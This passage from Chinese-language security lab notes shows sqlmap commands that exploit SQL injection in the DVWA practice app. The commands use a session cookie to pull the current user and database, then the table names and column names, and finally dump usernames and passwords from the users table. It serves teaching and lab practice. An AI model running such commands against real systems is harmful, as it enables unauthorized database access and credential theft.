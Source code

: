 ![image-20210413171808253](media/19.1.常见攻击/image-20210413171808253.png)

当前用户和数据库名。`--current-user`获取当前用户、`--current-db`获取数据库名

```bash
sqlmap.py -u"http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit= Submit#" -p "id" --cookie "security=low;PHPSESSID=jka3h0rrgm019seusvds4tskk5" --current-user --current-db
```

表名

```bash
sqlmap.py -u"http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit= Submit#" -p "id" --cookie "security=low;PHPSESSID=jka3h0rrgm019seusvds4tskk5" -D dvwa --tables
```

列名

```bash
sqlmap.py -u"http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit= Submit#" -p "id" --cookie "security=low;PHPSESSID=jka3h0rrgm019seusvds4tskk5" -D dvwa -T users --columns
```

用户名密码

```bash
sqlmap.py -u"http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=1&Submit= Submit#" -p "id" --cookie "security=low;PHPSESSID=jka3h0rrgm019seusvds4tskk5" -D dvwa -T users -C "user,password" --dump
```
